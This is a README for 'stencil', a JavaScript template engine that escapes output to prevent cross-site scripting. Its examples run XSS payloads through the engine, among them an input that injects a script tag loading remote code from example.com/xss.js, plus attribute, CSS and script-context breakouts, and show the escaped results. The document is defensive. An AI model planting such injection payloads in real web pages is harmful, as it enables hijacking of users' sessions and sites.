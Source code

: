 # stencil

A lightweight template engine with comprehensive encoding methods for mitigating
the risk of cross-site scripting (XSS) attacks.

## Installation

```
npm install https://github.com/mikol/stencil
```

## Usage

```javascript
var template = '<script>alert("Hello, !{name}!")</script>';
var locals = {
  name: '");' +
    'var $dq=document;' +
    'var $xp=$dq.createElement("script");' +
    '$xp.setAttribute("src", "https://example.com/xss.js");' +
    '$dq.getElementsByTagName("head")[0].appendChild($xp);'
};

stencil(template, locals);
```

```html
<script>alert("Hello, \x22\x29\x3bvar\x20\x24dq\x3ddocument\x3bvar\x20\x24xp\x3d\x24dq\x2ecreateElement\x28\x22script\x22\x29\x3b\x24xp\x2esetAttribute\x28\x22src\x22\x2c\x20\x22https\x3a\x2f\x2fexample\x2ecom\x2fxss\x2ejs\x22\x29\x3b\x24dq\x2egetElementsByTagName\x28\x22 head\x22\x29\x5b0\x5d\x2eappendChild\x28\x24xp\x29\x3b!");</script>
```

## Encoding Delimiters

### Echo (`${...}`)

```javascript
stencil('Hello, ${name}!', {name: 'Ŵøяłð"&\'/<>`'});
```

```html
Hello, Ŵøяłð"&'/<>`!
```

### Base64 (`+{...}`)

```javascript
stencil('Hello, +{name}!', {name: 'Ŵ🜘я🜯🜱'});
```

```html
Hello, xbTwn5yY0Y/wn5yv8J+csQ==!
```

### Base64ni (`-{...}`)

```javascript
stencil('Hello, -{name}!', {name: 'Ŵ🜘я🜯🜱'});
```

```html
Hello, xbTwn5yY0Y_wn5yv8J-csQ!
```

### CSS Properties (`:{...}`)

```javascript
stencil('<style>background-url: :{property};</style>', {
  property: 'javascript:alert(1)'
});
```

```html
<style>background-url: javascript\00003aalert\0000281\000029;</style>
```

### HTML Attributes (`={...}`)

```javascript
stencil('<span class="={cname}">Hello, World!</span>', {
  cname: '"\'%*+,-/<;>^| = risqué busịness'
});
```

```html
<span class="&#34;&#39;&#37;&#42;&#43;&#44;&#45;&#47;&lt;&#59;&gt;&#94;&#124;&#32;&#61;&#32;risqu&#233;&#32;busịness">Hello, World!</span>
```

### HTML Elements (`>{...}`)

```javascript
stencil('<span>Hello, >{name}!</span>', {
  name: '<script>alert(1);</script>'
});
```

```html
<span>Hello, &lt;script&gt;alert(1);&lt;&#47;script&gt;!</span>
```

### JavaScript (`!{...}`)

```javascript
stencil('<script>alert("Hello, !{name}!")</script>', {
  name: '");alert(1);"'
});
```

```html
<script>alert("Hello, \x22\x29\x3balert\x281\x29\x3b\x22!")</script>
```

### URI Components (`%{...}`)

```javascript
stencil('<a href="/help/kbid=%{kbid}">...</a>', {
  kbid: '" onclick="alert(1)'
});
```

```html
<a href="/help/kbid=%22%20onclick%3d%22alert%281%29">...</a>
```
